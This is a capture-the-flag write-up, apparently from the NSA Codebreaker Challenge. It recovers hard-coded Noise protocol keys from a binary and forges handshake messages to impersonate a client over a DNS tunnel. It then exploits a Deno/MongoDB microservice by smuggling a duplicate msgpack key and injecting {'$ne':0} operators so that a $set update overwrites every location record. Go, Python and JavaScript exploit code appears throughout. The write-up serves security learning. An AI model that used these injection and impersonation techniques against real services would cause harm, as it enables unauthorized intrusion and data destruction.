We can try to search for this using ghidra's search functionality. Let's search the memory for the bytes 0xe4, 0xa, 0x17 and so on. 


We found it! And it's right next to the hex values of the blacklisted low order points! So let's extract by 32 bytes due to key length of noise protocol being 32 bytes.

We get the following keys / values:

```
e40a17e1320124fc79dbb0bcb7eacdcc42eae6e7ada802906dc19401b8caeb05
2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a
087da20acac5ac16d3845e83c9a424d005b8183342d28533ec5946ba4494b430
```

We need to find out which are the server's keypair, and which is our static public key. We can easily verify this by performing scalar base mult, since scalar base mult'ing a private key will give the value of the public key.

And with this quick script we can verify that `2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a` is the server's private key and `e40a17e1320124fc79dbb0bcb7eacdcc42eae6e7ada802906dc19401b8caeb05` is the server's public key.

```
from cryptography.hazmat.primitives.asymmetric import x25519
import binascii


# The known keypair from the code
private_key_hex = "2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a"
expected_public_hex = "087da20acac5ac16d3845e83c9a424d005b8183342d28533ec5946ba4494b430"

# Convert private key from hex to bytes
private_key_bytes = binascii.unhexlify(private_key_hex)

# Create private key object from bytes
private_key = x25519.X25519PrivateKey.from_private_bytes(private_key_bytes)

# Get the public key
computed_public = private_key.public_key().public_bytes_raw()

# Convert to hex for comparison
computed_public_hex = binascii.hexlify(computed_public).decode()
print(f"Computed public key: {computed_public_hex}")
print(f"Expected public key: {expected_public_hex}")
print(f"Keys match: {computed_public_hex == expected_public_hex}")
```

So what now? Remember when the short description for readmessageA() in the noise website said that the server was vulernable to key compromise impersonation? Well, since we have the server's public / private keypair, we can do that!

But is this possible? 

Yes, based on the [go implementation](blob:https://noiseexplorer.com/f5115a88-fe29-4da1-bcb3-555840970fc3) as long as we perform the **exact** same operations to encrypt the data, the server will have no problem decrypting it. So this means that in our noise session, we must initialize our keys + cipherstate as a **responder**, and write the messageA for the server to read. We need to make sure we initialize as a responder because the way it mixes the hashes by key is in different order, which messes up decryption if we are to use the same keypairs. As shown:

```
func initializeInitiator(prologue []byte, s keypair, rs [32]byte, psk [32]byte) handshakestate {
	var ss symmetricstate
	var e keypair
	var re [32]byte
	name := []byte("Noise_K_25519_ChaChaPoly_BLAKE2s")
	ss = initializeSymmetric(name)
	mixHash(&ss, prologue)
	mixHash(&ss, s.public_key[:])
	mixHash(&ss, rs[:])
	return handshakestate{ss, s, e, rs, re, psk}
}

func initializeResponder(prologue []byte, s keypair, rs [32]byte, psk [32]byte) handshakestate {
	var ss symmetricstate
	var e keypair
	var re [32]byte
	name := []byte("Noise_K_25519_ChaChaPoly_BLAKE2s")
	ss = initializeSymmetric(name)
	mixHash(&ss, prologue)
	mixHash(&ss, rs[:])
	mixHash(&ss, s.public_key[:])
	return handshakestate{ss, s, e, rs, re, psk}
}
```

So we initialize as a responder, and write messageA. We write that through some custom code onto the go implementation of the noise K protocol provided by the website. With that, we can just combine our ephemereal key + shared static key + ciphertext into just one buffer. I added just some small stuff in writeMessageA such as generating my own ephemereal keypair and some debugging stuff like printing the message state out.

```
func writeMessageA(hs *handshakestate, payload []byte) ([32]byte, messagebuffer, cipherstate, cipherstate, error) {
	 var err error
	 var messageBuffer messagebuffer
	 ne, ns, ciphertext := emptyKey, []byte{}, []byte{}
	
	hs.e = generateKeypair()
	ne = hs.e.public_key
	 mixHash(&hs.ss, ne[:])
	 /* No PSK, so skipping mixKey */
	 mixKey(&hs.ss, dh(hs.s.private_key, ne))
	 mixKey(&hs.ss, dh(hs.s.private_key, hs.rs))
	 
	 _, ciphertext, err = encryptAndHash(&hs.ss, payload)
	 if err != nil {
		 cs1, cs2 := split(&hs.ss)
		 return hs.ss.h, messageBuffer, cs1, cs2, err
	 }
	 messageBuffer = messagebuffer{ne, ns, ciphertext}
	 cs1, cs2 := split(&hs.ss)
	 return hs.ss.h, messageBuffer, cs1, cs2, err
 }
 func SendMessage(session *noisesession, message []byte) (*noisesession, messagebuffer, error) {
	 var err error
	 var messageBuffer messagebuffer
	 if session.mc == 0 {
		 session.h, messageBuffer, session.cs1, _, err = writeMessageA(&session.hs, message)
		 buf := new(bytes.Buffer)
		 // Write each field
		 buf.Write(messageBuffer.ne[:])
		 buf.Write(messageBuffer.ns) 
		 buf.Write(messageBuffer.ciphertext)

		 
		 fmt.Printf("%x\n", buf.Bytes())
		 buf.Reset()
		 session.hs = handshakestate{}
	 }
	 if session.mc > 0 {
		 if session.i {
			 _, messageBuffer, err = writeMessageRegular(&session.cs1, message)
			 buf := new(bytes.Buffer)
		 // Write each field
		 buf.Write(messageBuffer.ne[:])
		 buf.Write(messageBuffer.ns) 
		 buf.Write(messageBuffer.ciphertext)
			 fmt.Printf("%x\n", buf.Bytes())
			 buf.Reset()
		 } else {
			 _, messageBuffer, err = writeMessageRegular(&session.cs1, message)
			 buf := new(bytes.Buffer)
		 // Write each field
		 buf.Write(messageBuffer.ne[:])
		 buf.Write(messageBuffer.ns) 
		 buf.Write(messageBuffer.ciphertext)
			 fmt.Printf("%x\n", buf.Bytes())
			 buf.Reset()
		 }
	 }
	 session.mc = session.mc + 1
	 return session, messageBuffer, err
 }
 
 func RecvMessage(session *noisesession, message *messagebuffer) (*noisesession, []byte, bool, error) {
	 var err error
	 var plaintext []byte
	 var valid bool
	 if session.mc == 0 {
		 session.h, plaintext, valid, session.cs1, _, err = readMessageA(&session.hs, message)
		 fmt.Printf("%x\n", plaintext)
		 session.hs = handshakestate{}
	 }
	 if session.mc > 0 {
		 if session.i {
			 _, plaintext, valid, err = readMessageRegular(&session.cs1, message)
			  fmt.Printf("%s\n", plaintext)
		 } else {
			 _, plaintext, valid, err = readMessageRegular(&session.cs1, message)
			 fmt.Printf("%s\n", plaintext)
		 }
	 }
	 session.mc = session.mc + 1
	 return session, plaintext, valid, err
 }
 // Define the struct with ordered fields
// Add these struct definitions near the top


 func main() {
	var initiatorKeypair = keypair{
		private_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a")
			copy(pubKey[:], hex)
			return pubKey
		}(),
		public_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("087da20acac5ac16d3845e83c9a424d005b8183342d28533ec5946ba4494b430")
			copy(pubKey[:], hex)
			return pubKey
		}(),
	}
	var responderKeypair = keypair{
		private_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a")
			copy(pubKey[:], hex)
			return pubKey
		}(),
		public_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("e40a17e1320124fc79dbb0bcb7eacdcc42eae6e7ada802906dc19401b8caeb05")
			copy(pubKey[:], hex)
			return pubKey
		}(),
	}

	prologue := []byte{}
	//loop for the normal bullshit
	
	// Reset sessions at the start of each iteration
	initiatorSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)
	responderSession := InitSession(false, prologue, responderKeypair, initiatorKeypair.public_key)

	
	
	
	payload := []byte("aaaaa")
	// Send message and get updated session
	sessionPtr, messageBuffer1, err := SendMessage(&initiatorSession, payload)
	if err != nil {
		fmt.Println("Error in SendMessage:", err)
		return
	}
	initiatorSession = *sessionPtr

	// Receive message and get updated session
	sessionPtr, _, valid1, err := RecvMessage(&responderSession, &messageBuffer1)
	if err != nil || !valid1 {
		fmt.Println("Handshake failed at responder")
	}
	responderSession = *sessionPtr
	
```

And... it successfully decrypts in a trial run when we run the go binary!

```
jake@computer:~/nsa-cbc/task7$ go run main.go
1461233a8d55fa0bd03b289e3595993486635c17d88d9f53e10e09507256e31d58a5337e576eaf9fbed06e9e58442f95354459aeab
Successfully decrypted: 6161616161
```

Great! Let's grab that large encrypted hex string and prepare it to send via dns to the coredns binary to decode + process.

### Communicating successfully

I slightly modified the dns ping python script to just input the hex data:

```
import base64
import dns.resolver
import time

def dns_ping(domain):
    resolver = dns.resolver.Resolver()
    resolver.nameservers = ['127.0.0.1']
    resolver.port = 1053
    
    try:
        answers = resolver.resolve(domain, 'A')
        for rdata in answers:
            print(f"Reply from {rdata.address}")
    except Exception as e:
        print(f"Error: {str(e)}")


def base32hex_encode(hex_bytes):
    # Convert the hex byte list to bytes
    byte_data = bytes(hex_bytes)
    
    # Encode to base32hex and remove padding
    encoded = base64.b32hexencode(b'').decode('utf-8')
    
    return encoded.lower()  # Convert to lowercase as per standard

#group data 


# Your input hex bytesn
byte_data = bytes.fromhex("1461233a8d55fa0bd03b289e3595993486635c17d88d9f53e10e09507256e31d58a5337e576eaf9fbed06e9e58442f95354459aeab")


new = base64.b32hexencode(byte_data).decode()

domain = ('x' + new[:62] + 'y' *(62-len(new[:62])) + '.x' + new[62:62+62] + 'y' * (62-len(new[62:62+62])) + '.x' + new[62+62:] + 'y' * (62-(len(new[62+62:]))) + '.net-w77ls5pf' + '.example.com').replace("=", "z")

print(domain)

dns_ping(domain)
```
*One very important thing to notice is the use of b32hexencode instead of b32encode, which is due to the differences in how go's base32 uses the extended hex alphabet as a default. Python doesn't do that by default.*

And when running it, we succesfully get a **NOERROR** response to our dns query!

```
.:1053
CoreDNS-1.11.3
linux/amd64, go1.21.8, a7ed346-dirty
[DEBUG] plugin/frontend: type: 1
[DEBUG] plugin/frontend: got data: 1461233a8d55fa0bd03b289e3595993486635c17d88d9f53e10e09507256e31d58a5337e576eaf9fbed06e9e58442f95354459aeab
[DEBUG] plugin/frontend: got decrypted data: 6161616161
[INFO] 127.0.0.1:41803 - 5228 "A IN x2hgi6ekdant0nk1r52f3b5cp6i366n0nr26pukv11o4l0simscelh99jfpbmtb.xsvnr86t7io8gnpada4b6namzzzyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.xyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy.net-w77ls5pf.example.com. udp 245 false 1232" NOERROR qr,aa,rd 466 0.007843788s
```
Great! After 45 days we finally solve it :cat:! The program was essentially running an encrypted tunnel! Now let's find out what they are sending / receiving, and how to stop it!


## Task 7 - Location (un)compromised

> So the DNS server is an encrypted tunnel. The working hypothesis is the firmware modifications leak the GPS location of each JCTV to the APT infrastructure via DNS requests. The GA team has been hard at work reverse engineering the modified firmware and ran an offline simulation to collect the DNS requests.
> 
> The server receiving this data is accessible and hosted on a platform Cyber Command can legally target. You remember Faruq graduated from Navy ROTC and is now working at Cyber Command in a Cyber National Mission Team. His team has been authorized to target the server, but they don't have an exploit that will accomplish the task.
> 
> Fortunately, you already have experience finding vulnerabilities and this final Co-op tour is in the NSA Vulnerability Research Center where you work with a team of expert Capabilities Development Specialists. Help NSA find a vulnerability that can be used to lessen the impact of this devastating breach! Don't let DIRNSA down!
>
> You have TWO outcomes to achieve with your exploit:
>
>    1. All historic GPS coordinates for all JCTVs must be overwritten or removed.
>    2. After your exploit completes, the APT cannot store the new location of any hacked JCTVs.
>
> The scope and scale of the operation that was uncovered suggests that all hacked JCTVs have been leaking their locations for some time. Luckily, no new JCTVs should be compromised before the upcoming Cyber Command operation.
>
> Cyber Command has created a custom exploit framework for this operation. You can use the prototype "thrower.py" to test your exploit locally.
>
> Submit an exploit program (the input file for the thrower) that can be used immediately by Cyber Command. 

Opening up microservice on a decompiler frustrated me initially as I saw a bunch of rust and thought "no way we have to reverse rust dude..." Thankfully, upon running strings, I saw the *actual* source code used in the binary.

Doing this I found a `index.ts`, `mongodb.ts`, `logger.ts`, and `routes.ts`. Reading through them it doesn't seem obvious at all where the vulnerability is. Let's just go piece by piece on how the application works.

### Reversing microservice

So first off, in `index.ts` it imports all the dependencies, starts the logging functionality, and creates / accesses a mongodb server.

```javascript
console.debug = () => {} // stop debug logging for main app

import http from 'node:http';
// @deno-types="npm:@types/express"
import express from 'npm:express';
// @deno-types="npm:@types/body-parser"
import bodyParser from 'npm:body-parser';

import { connectToDatabase, closeDatabaseConnection, aggregateLocationEvents } from './mongodb.ts';
import { logger } from './logger.ts';
import { registerRoutes } from './routes.ts';

const app = express();
const port =  3000;
const maintenanceInterval = parseInt('300000', 10); // default to 5 minutes
const uri =  'mongodb://localhost:27017';
const db = 'test';

app.use(bodyParser.json());
app.use(bodyParser.raw({ type: 'application/msgpack' }));

registerRoutes(app);

let server: http.Server;

connectToDatabase(uri, db).then(() => {
  server = app.listen(port, () => {
    logger.info(`Server is running on port ${port}`);
  });
  setInterval(async () => {
    try {
      await aggregateLocationEvents();
      logger.info('Maintenance task completed');
    } catch (err) {
      logger.error('Failed to run maintenance task', err);
    }
  }, maintenanceInterval);
}).catch(async (err) => {
  logger.error('Failed to connect to the database', err);
  await closeDatabaseConnection();
});
```
Every 5 minutes the server will run an `aggregateLocationEvents()` function that will be relevant later.

An http web server is created, and in `routes.ts` it accepts two different types of post requests:

```javascript
app.post("/event/insert", async (req: Request, res: Response) => {
        try {
            const event = validateLocationEvent(req)
            await insertLocationEvent(event);
            res.status(200).send("Event inserted successfully");
        } catch (error) {
            res.status(500).send("Error inserting event: " + error);
        }
    });

    app.post("/event/test", async (req: Request, res: Response) => {
        try {
            const event: LocationEvent = {
                vid: "m-00-000",
                timestamp: (new Date()).getTime(),
                point: {
                    type: "Point",
                    coordinates: [0, 0] // visiting null island
                }
            };
            await insertLocationEvent(event);
            res.status(200).send("Event inserted successfully");
        } catch (error) {
            res.status(500).send("Error inserting event: " + error);
        }
    });
```

The `/event/insert` works with a `validateLocationEvent()` function: 

```javascript
export function validateLocationEvent(req: Request): LocationEvent {
  const buffer = req.body

  // fast checks
    
  assert(buffer[0] == 0x84) // must be object with 4 keys (v, t, d, m)
  assert(buffer[1] == 0xA1 && buffer[2] == 0x76) // first key is 'v'
  assert(buffer[3] == 0xA8 && buffer[4] == 0x6d) // vids are 8 character strings starting with m
    //doesn't check the furhter parts of the buffer ig...
  // slower msgpack decode and other validation

  const msg = msgpack.decode(buffer); // throws on bad decode
//should maybe try bypassing these?????
  let vid: string = msg.v // already checked above
  assert(vid) // fail fast
  let timestamp: number = msg.t // too old/new checked on event insert
// bro maybe this alr is too bad <- WTFFFFFF


  assert(timestamp) // fail fast

  // translate & check coordinates from msg.d (bias-packed degrees) and msg.m (bit-packed milliseconds)
  // convert to D.DDDDDD accuracy at least 0.000017 or approx 2 meters
  let lat_ms = (msg.m >> 16) & 0xFFFF
  let lon_ms = msg.m & 0xFFFF
  let lat_s = lat_ms / 1000
  let lon_s = lon_ms / 1000
  let lat_df = lat_s / 60
  let lon_df = lon_s / 60
  let lat_di = Math.trunc(msg.d / 361)
  let lon_di = (msg.d % 361)
  let lat: number = unbias(lat_di, lat_df, 90)
  let lon: number = unbias(lon_di, lon_df, 180)
  assert(-90 <= lat && lat <= 90) // latitude range check.  range is [-90, 90]
  assert(-180 <= lon && lon <= 180) // longitude range check. range is [-180, 180]
  assert(!(lat == 0 && lon == 0)) // avoid bogus coordinates (null island)

  const event: LocationEvent = {
      vid: vid,
      timestamp: timestamp,
      point: {
          type: "Point",
          coordinates: [lon, lat] // GeoJSON Point expects longitude first
      }
  }

  return event
}
``` 

Essentially this verifies that the correct "type" of data is being sent from the client and processes the coordinate data from bias-packed degrees and bit-packed milliseconds onto valid coordinates. Invalid type data and coordinates are blocked by assert() and the request will not pass.

Looking at `mongodb.ts`, we find the `aggregateLocationEvents` function from `index.ts`, a bunch of test functions, and the insertion function to insert the location data of the JCTVs into the mongodb server.

```javascript
// only for testing <- this could be??? objective?
export async function closeDatabaseConnection(): Promise<void> {
    if (client) {
        await client.close();
        logger.info('Disconnected from MongoDB');
    }
}

// only for testing <- this could be???
export async function clearDatabase(): Promise<void> {
    await locationEvents.drop()
    await locationHistory.drop()
    logger.debug("Dropped collections in db '" + dbName + "'");
    // now recreate collections (since drop destroys indexes etc)
    await createCollections()
}

// only for testing <- this could be???
export async function getLocationEvents(filter: any) {
    return await locationEvents.find(filter).toArray();
}

// only for testing <- this could be???
export async function getLocationHistory(filter: any) {
    return await locationHistory.find(filter).toArray();
}

export async function insertLocationEvent(event: LocationEvent, force: boolean = false) {

    if (!force) { // force bypass for testing
        const currentTime = new Date();

        if (Math.abs(currentTime.getTime() - event.timestamp) > CLOCK_THRESH) {
            throw new Error("Event timestamp is not within range of the current time");
        }
    }

    let doc = { _id: new ObjectId(), ...event }; // force new id to avoid duplicate key error on fast insertions
    await locationEvents.insertOne(doc)
}

function paginate(h: LocationHistory, max_count: number, prev_count: number): Array<LocationHistory>
{
    // split the single "h" LocationHistory into an array of LocationHistory values
    // each should have a maximum "count" value (ie. number of timestamps and number of coordinates) of max_count paramater
    // but the first LocationHistory should have (max_count-prev_count) as it's maximum "count"
    /// check if count is less than or equal to 100 - previous count, then return into an array of values
    if ( h.count <= (max_count - prev_count) ) return [h]; // optimize typical case

    // here at least 1 split is needed
    const paginatedHistories: Array<LocationHistory> = [];
    let used = 0;
    let available = max_count - prev_count;

    while (used < h.count) {
      let currentHistory: LocationHistory = {
          vid: h.vid,
          count: available,
          starttime: h.timestamps[used],
          endtime: h.timestamps[used + available - 1],
          timestamps: h.timestamps.slice(used, used + available),
          lineString: {
              type: "LineString",
              coordinates: h.lineString.coordinates.slice(used, used + available)
          }
      };
      paginatedHistories.push(currentHistory);
      used += available;
      available = Math.min(max_count, h.count - used);
    }

    return paginatedHistories;
}

export async function aggregateLocationEvents() {
    const pipeline: any[] = [
        {
            $sort: { vid: 1, timestamp: 1 } // so groups have entries ordered by time (optimized with index)
        },
        {
            $group: {
                _id: "$vid", // group on vid (orderd by timestamp above)
                last_id: { $max: "$_id" }, // track latest entered event to avoid race condition and delete only the aggregated events
                starttime: { $min: "$timestamp" },
                endtime: { $max: "$timestamp" },
                timestamps: { $push: "$timestamp" },
                coords: { $push: "$point.coordinates" }
            }
        },
        {
            $project: {
                location_history: {
                  _id: "$last_id",
                  vid: "$_id",
                  count: { $size: "$timestamps" },
                  starttime: "$starttime",
                  endtime: "$endtime",
                  timestamps: "$timestamps",
                  lineString: {
                      type: "LineString",
                      coordinates: "$coords"
                  }
                }
            }
        }
    ];

    interface LocationResult {
        location_history: WithId<LocationHistory>;
    }
    //aggregates those variables, which means my actual thing prob doesnt work for ...
    const aggregatedResults: Array<LocationResult> = await locationEvents.aggregate(pipeline).toArray() as Array<LocationResult>;

    if (aggregatedResults.length == 0) return;

    const MAX_COUNT = 100; // max events in a single LocationHistory to avoid Mongo errors

    var bulk = locationHistory.initializeUnorderedBulkOp();
    var last_id = new ObjectId(0);
    /// iterates over all the aggregated results in the location_events
    for (var result of aggregatedResults) {
        /// lets h be the "location_history" of the first event
        let h = result.location_history; 
        /// checks if the _id of the result is greated than 
        if (h._id > last_id) last_id = h._id; // keep the last id across all groups
        /// builds the filter by vid
        let last_history_selector: Filter<LocationHistory>  = { vid: h.vid };
        /// searches by vid, sorts in newest, limits to 1 entry, convert to array, then extract the latest entry and remove from the array
        let last_history = (await locationHistory.find(last_history_selector).sort({ endtime: -1 }).limit(1).toArray()).shift();
        /// if there was no history found...
        if (last_history == null) { // must be a new vid
            let histories = paginate(h, MAX_COUNT, 0);
            for (var newh of histories) {
                await bulk.insert(newh);
            }
        } else { // existing vid
            /// append endtime to the filter as well
            last_history_selector.endtime = last_history.endtime; // now we can select the correct history to extend
            /// if the start time of the entries we are iterating by is greater than or equal to the last_history's endtime
            if ( h.starttime >= last_history.endtime ) { // typical case
                /// 
                let histories = paginate(h, MAX_COUNT, last_history.count);
                /// get the first entry, and assert it is not null ig
                let extra = histories.shift()!;

                // update last history up to the MAX_COUNT locations
                last_history.count += extra.count;
                last_history.endtime = extra.endtime;
                last_history.timestamps.push(...extra.timestamps);
                last_history.lineString.coordinates.push(...extra.lineString.coordinates);
                /// find the entry based on vid and time, update the entry 
                await bulk.find(last_history_selector).update({ $set: {
                    count: last_history.count,
                    endtime: last_history.endtime,
                    timestamps: last_history.timestamps,
                    lineString: last_history.lineString
                }});
                /// if over the maxcount append additional histories
                // add complete additional history entries over MAX_COUNT
                for (var newh of histories) {
                    await bulk.insert(h); //why just h bro?
                }
            /// ignore the newer location 
            /// appears to achieve one of our goals -> After your exploit completes, the APT cannot store the new location of any hacked JCTVs. 
            } else { // unlikely but maybe possible out of order case:  h.starttime < last_history.endtime
              // just drop it since we already have a newer location, maybe implement later
              //throw new Error("todo");
            }
        }
    }

    try { 
        await bulk.execute(); //<- wtf does this do?
    } catch (e) { // catch for the empty batch edge case
        if (e instanceof MongoInvalidArgumentError) {
            // MongoInvalidArgumentError: Invalid BulkOperation, Batch cannot be empty
            logger.debug("handled exception in aggregateLocationEvents", e);
        } else {
            logger.error("unhandled exception in aggregateLocationEvents", e);
        }
    }

    // clear the locationEvents collection after aggregation up to and including the last_id <- wtf does this do?
    await locationEvents.deleteMany({ _id: { $lte: last_id } });
```

Our location data is inserted into the location_events collection, with a small timecheck.

Then in 5 minutes, our location_events collection becomes aggregated, with events being pushed into entries grouped by vehicle id (vid), ordered by their timestamp(s), and their coordinates pushed into an array.

This grouping is then projected onto a different format: a vid, a count of entries with the same vid, a starttime, an endtime, and an array of timestamps with an array of coordinates.

Then with every aggregated result, the function will grab the result's formatted location_history object, which is essentially the aggregated entry, and gets the last history of the same vid in the location_history collection.

If not, the entry is paginated, then entered as its own history entry.

Otherwise, it compares whether the new entry's endtime is greater than or equal to the last known history. If not, the program will simply drop the new entry.

If true, then the program will paginate by 100 (split history if count > 100, every 100 location_events entries of the same vid become a completely new entry) and then use the `update` and `$set` to update the historical entry of the same vid with new data excluded from the paginated entry (ex. 101 the 1 past 100).

If pagination does occur, then the new sections > 100 will simply be inserted as a completely new entry.

That seems like a lot. *Where is the vulnerability?* Well, since we have a clear path in inserting data to updating data through this whole process, maybe we can find a way to make the program unintentionally update stuff it shouldn't.

Additionally, `$set` is a bit dangerous since it *overwrites* rather than appends. So our main focus will be to target this specific line of code:

```
await bulk.find(last_history_selector).update({ $set: {
                    count: last_history.count,
                    endtime: last_history.endtime,
                    timestamps: last_history.timestamps,
                    lineString: last_history.lineString
                }});
```

Additionally we can use **nosql injection** to find **ALL ENTRIES** and overwrite them using `$set` with bs data. 

This is through `last_history_selector`:

```
let last_history_selector: Filter<LocationHistory>  = { vid: h.vid };
...
last_history_selector.endtime = last_history.endtime;
```

If we make vid or timestamp into `{"$ne":0}`, we can easily trick the program to get **all entries** since all vids and timestamps are *not equal* to *0*! Hooray! We can overwrite all the data. Except...

### Finding an injection

Unfortunately the program verifies POST'd data through a bunch of asserts:

```
 // fast checks
    
  assert(buffer[0] == 0x84) // must be object with 4 keys (v, t, d, m)
  assert(buffer[1] == 0xA1 && buffer[2] == 0x76) // first key is 'v'
  assert(buffer[3] == 0xA8 && buffer[4] == 0x6d) // vids are 8 character strings starting with m
    //doesn't check the furhter parts of the buffer ig...
  // slower msgpack decode and other validation

  const msg = msgpack.decode(buffer); // throws on bad decode
//should maybe try bypassing these?????
  let vid: string = msg.v // already checked above
  assert(vid) // fail fast
  let timestamp: number = msg.t // too old/new checked on event insert
// bro maybe this alr is too bad <- WTFFFFFF


  assert(timestamp) // fail fast
```

This means that it's basically *impossible* to just make vid into `{"$ne":0}` as the start of the msgpack encoded buffer will be corrupted, causing the assert. But no worries!

You might have noticed that the variables vid, timestamp, and the coordinates are *type-hinted*. I'm not super into typescript, but after a few random bs insertions, we can just ignore the type-hinting and insert an object such as `{"$ne":0}`.

I wrote this janky type-hinting bypass test in javascript to send to microservice:

```
const axios = require('axios');
const msgpack = require("msgpack-lite");
const {Code, serialize, BSON, EJSON } = require('bson');


(async () => {

    
    for (i=0; i<1; i++){
        // Create a valid vid (8 characters starting with 'm')
    //let's try "abusing this vid"
    //bro i have no idea what i'm doing
    

    // Use a current timestamp (Unix timestamp in seconds or milliseconds, depending on your validation)
    const timestamp = Math.floor(Date.now());

    // Define valid latitude and longitude
    const latitude = Math.random() * (89 - 1) + 1;  // Random between 1 and 89
    const longitude = Math.random() * (89 - 1) + 1;  // Random between 1 and 89

    // Convert latitude and longitude to the packed format
    const lat_ms = Math.floor((latitude % 1) * 1000); // milliseconds portion of latitude
    const lon_ms = Math.floor((longitude % 1) * 1000); // milliseconds portion of longitude
    const lat_df = lat_ms / 1000 / 60; // fractional degrees
    const lon_df = lon_ms / 1000 / 60; // fractional degrees
    const lat_di = Math.floor(latitude + 90); // bias-packed degrees
    const lon_di = Math.floor(longitude + 180); // bias-packed degrees
    const degrees_packed = lat_di * 361 + lon_di; // pack degrees into a single value
    const milliseconds_packed = (lat_ms << 16) | lon_ms; // pack milliseconds
    
    
   
    const msg2 = {$ne:0}
    
    // Encode the message using MessagePack
    const buffer = msgpack.encode({
        "v": "m-00-00"+i,
        "t": msg2, //huh this
        "d": degrees_packed,
        "m": milliseconds_packed,
    });
    // Create the data to insert


// Create new buffer by concatenating three parts

  
    // Send the POST request
    try {
        const response = await axios.post('http://127.0.0.1:3000/event/insert', buffer, {
            headers: {
                'Content-Type': 'application/msgpack',
            },
        });

        console.log('Response:', response.data);
    } catch (error) {
        console.error('Error:', error.response ? error.response.data : error.message);
    }
    }
})();

```



And voila! Timestamp bypasses the type hinting!

This eliminates the timestamp target, and maybe the coordinates...

But how can we get vid? We need it in order to overwrite all the coordinates in one fell swoop! Luckily after **a few weeks**, I decided to maybe try attacking the way msgpack is used.

This came from a small detail that the application is using `msgpack-lite`, a certain package that upon further inspection, hasn't been maintained for a long time. Could this be it?

Playing around in this demo: https://kawanet.github.io/msgpack-lite/, I found a crucial detail that could allow us to overwrite coordinate data:




As you can see (or not?), the way messagepack works is that the first byte indicates the number of fields in the JSON object, and every hex data that starts with A represents the start of a new field. So, if we have field `"int":1`, represented as `A3 69 6E 74 01`, we are able to essentially overwrite that value into `"int":4` by injecting `A3 69 6E 74 04` before the last real field. And the field after just gets dropped by msgpack-lite instead of being thrown an error. 

This is a natural property of JSON, where when encountering the same field again, JS will probably just overwrite the old value with the new one. So how can we use this in our exploit?

Well as you can remember, we need to make inject the vid field with an operator in order to get all available vids. We can basically overwrite a valid vid with a poisoned vid since the checks for validity only occur before the msgpack data is decoded. This works nice with the type-hinting bypass as the field that will be exlcuded (most likely d or m) will return null, but will still be able to pass type hinting, esentially allowing this type of injection to happen.

We can turn a normal entry:
```
{
    v: "m-00-000"
    t: 1735268263
    d: 38870
    m: 29360677
}
```

into 

```
{
    v: "m-00-000"
    t: 1735268263 <- {"$ne":0}
    d: 38870 
    v: {"$ne":0}
    m: 29360677 <- will become null as it no longer is read by msgpack-lite
}
```

Great! Now we are able to get all vids through injection, but how can we actually make this work without it being dropped? When testing with fake data, the timestamp`{"$ne":0}` gets dropped due to being less than the current unix time. This is because initially the program gets the entry of the *highest value vid*, and obviously since it has a greater timestamp than the injected payload due to it being unix time probably.

Thankfully, by luck I found a "cheese" due to how the program aggregates and updates location_history.

As you remember, individually inserted events get grouped into a single group, with all the coordinates being appeneded together, and the endtime being the max of the group. So we can just add in a poisoned vid with a normal timestamp to pass that check.

So in total, our msgpack exploit is as follows:

1. Place a "perfectly normal" entry with a vid m~~~~~~~ and a regular time so it gets put as the "last" entry when ordered by vid due to the ascii characters following vid

    - This allows us to effectively control last_history with our data as it searches by vid!

```
let last_history_selector: Filter<LocationHistory>  = { vid: h.vid };
/// searches by vid, sorts in newest, limits to 1 entry, convert to array, then extract the latest entry and remove from the array
let last_history = (await locationHistory.find(last_history_selector).sort({ endtime: -1 }).limit(1).toArray()).shift();

await bulk.find(last_history_selector).update({ $set: {
                    count: last_history.count,
                    endtime: last_history.endtime,
                    timestamps: last_history.timestamps,
                    lineString: last_history.lineString
                }});
```

2. Wait 5 minutes for the program to aggregate and store our "valid" vid. 
3. Use the msgpack overwrite trick to make `v: "m~~~~~~~"` into `v: {"$ne":0}` placed in between the fields of a valid t field and the d field, ensuring m gets set to null by the program
4. Resend the msgpack overwrite trick, but this time have `t: {"$ne":0}` immediately in order for it to be aggregated with the entry with the valid t field.

This will allow us to search and update for all entries and times!

5. Wait 5 minutes for the program to aggregate, overwrite every entry to the last entry's coordinates
6. Resend the msgpack overwrite trick with `t: {"$ne":0}` (probably useless in hindsight, but idk this just worked)
7. End!

### Writing To thrower.py

Ok, now we just need to encrypt the msgpack payloads through the DNS tunnel from task6 and send them as DNS A queries using thrower.py. 

thrower.py uses a custom parser called *[lark](https://github.com/lark-parser/lark)*, which basically is its own code language, but for the sake of writing I'm just gonna provide the two ones I used:

1. resolve : query the dns server
2. sleep : pause the program for an x amount of time

Thankfully encryption is *fairly* simple since I just have to use *noise_k.go* file with the keys we used to impersonate to communicate with the dns server, and allow for it to decrypt and POST our msgpack data.

```
 func main() {
	var initiatorKeypair = keypair{
		private_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a")
			copy(pubKey[:], hex)
			return pubKey
		}(),
		public_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("087da20acac5ac16d3845e83c9a424d005b8183342d28533ec5946ba4494b430")
			copy(pubKey[:], hex)
			return pubKey
		}(),
	}
	var responderKeypair = keypair{
		private_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("2a86c7aa79da57868b5e6df2192568f69d966d1c6c875f66a5e98e85e1a3f29a")
			copy(pubKey[:], hex)
			return pubKey
		}(),
		public_key: func() [32]byte {
			var pubKey [32]byte
			hex, _ := hex.DecodeString("e40a17e1320124fc79dbb0bcb7eacdcc42eae6e7ada802906dc19401b8caeb05")
			copy(pubKey[:], hex)
			return pubKey
		}(),
	}

	prologue := []byte{}
